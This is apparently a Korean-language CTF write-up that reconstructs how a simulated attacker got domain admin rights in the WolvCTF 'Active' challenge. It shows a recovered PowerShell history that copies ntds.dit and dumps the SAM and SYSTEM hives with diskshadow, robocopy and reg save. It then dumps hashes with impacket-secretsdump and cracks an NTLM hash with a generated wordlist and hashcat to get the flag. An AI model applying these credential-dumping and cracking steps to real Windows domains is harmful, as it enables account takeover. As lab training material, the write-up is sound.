




<br><br>

이제 공격자가 도메인 관리자 권한을 어떻게 획득했는지를 밝혀낼 차례이다..<br><br>

공격자의 전체 침투 경로를 완전히 추적했음을 증명하려면,<br>
도메인 관리자 계정의 비밀번호를 플래그로 제출하면 된다.<br><br>

제시카(Jessica)의 패스워드 해시를 얻기 위해,<br>
2단계에서 이어서 새롭게 탈취된 계정인 패트릭(Patrick)을 스캔해 보자.<br><br>

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat patrick/Desktop/note_from_jake.txt
If you need anything backed up you can just use my account:

Password: fwa3fe8#FEwef
```

<br><br>

<br>
cat jake/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt 욜로 가보자<br><br>

<br>

```
┌──(kali㉿kali)-[~/ctf/Active/challenge/Users - Copy]
└─$ cat jake/AppData/Roaming/Microsoft/Windows/PowerShell/PSReadLine/ConsoleHost_history.txt
cd C:\Users\Public\Downloads
whoami
cd C:\Users\jake\desktop
whoami /all > whoami.txt
type .\whoami.txt
cd C:\Users\public
cd downloads
diskshadow.exe /s script.txt
diskshadow.exe /s script.txt > shadow.txt
type .\shadow.txt
cp .\shadow.txt C:\Users\jake\desktop\shadow.txt
del shadow.txt
robocopy /b z:\windows\ntds . ntds.dit > robo.txt
type .\robo.txt
dir
del robo.txt
cp ntds.dit C:\Users\jake\downloads
del ntds.dit
cd C:\Users\jake\downloads
dir
reg save hklm\system c:\users\jake\downloads\system.hive
reg save hklm\sam C:\users\jake\downloads\sam.hive
dir
cp * C:\Users\public
del C:\Users\public\ntds.dit
del C:\Users\public\sam.hive
del C:\Users\public\system.hive
runas /User:wolvctf\jessica
runas /User:wolvctf\jessica cmd
```

<br><br>

공격자는 diskshadow를 사용하여 NTDS, SAM 하이브, 그리고 SYSTEM 하이브의 볼륨 섀도 복사본(Volume Shadow Copy) 을 생성한 것으로 보인다.<br>
이제 Impacket 도구를 사용해 해당 파일들에서 비밀번호 등의 비밀 정보(secrets) 를 덤프해 보자.<br><br>

```
impacket-secretsdump -ntds ntds.dit -system system.hive -sam sam.hive LOCAL
```

<br><br>

<br>
중간에 다음과 같은 구문이 있다.<br>

```
wolvctf.corp\jessica:4107:aad3b435b51404eeaad3b435b51404ee:8fcdcffba18f392df7aa291527290aff:::
```

<br><br>

8fcdcffba18f392df7aa291527290aff 요걸 또 놓칠 수 없다.<br><br>

Members who are part of this group have passwords w then a c then a t and an f, curly bracket left, 'bloodhound*is_cool*' (but all the 'o's are '0's), then a city in all lowercase appended by 3 numbers (secret only you know), right curly bracket<br><br>

Take a word list that has a lot of cities, as such:
https://github.com/kkrypt0nn/wordlists/blob/main/wordlists/security_question_answers/cities.txt<br><br>

wordlist를 수정해보자.<br><br>

```
with open("cities.txt", "r") as file:
    cities = file.readlines()

formatted_cities = []
for city in cities:
    city = "wctf{bl00dh0und_is_c00l_" + city.strip().lower()
    formatted_cities.append(city)

with open("cities_wordlist.txt", "w") as file:
    for formatted_city in formatted_cities:
        file.write(formatted_city + "\n")

print("Formatted cities have been written to cities_wordlist.txt")
```

<br><br>

그 다음에,<br>

```
hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}"
```

<br><br>

```
┌──(kali㉿kali)-[~/ctf/Active]
└─$ hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}"
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-12th Gen Intel(R) Core(TM) i7-1280P, 1424/2913 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

INFO: All hashes found as potfile and/or empty entries! Use --show to display them.

Started: Wed Mar 19 01:41:52 2025
Stopped: Wed Mar 19 01:41:53 2025

┌──(kali㉿kali)-[~/ctf/Active]
└─$ hashcat -a 6 -m 1000 jessica.hash cities_wordlist.txt "?d?d?d}" --show
8fcdcffba18f392df7aa291527290aff:wctf{bl00dh0und_is_c00l_votuporanga985}
```

<br><br>

최종 플래그는 다음과 같다.<br>
wctf{bl00dh0und_is_c00l_votuporanga985}
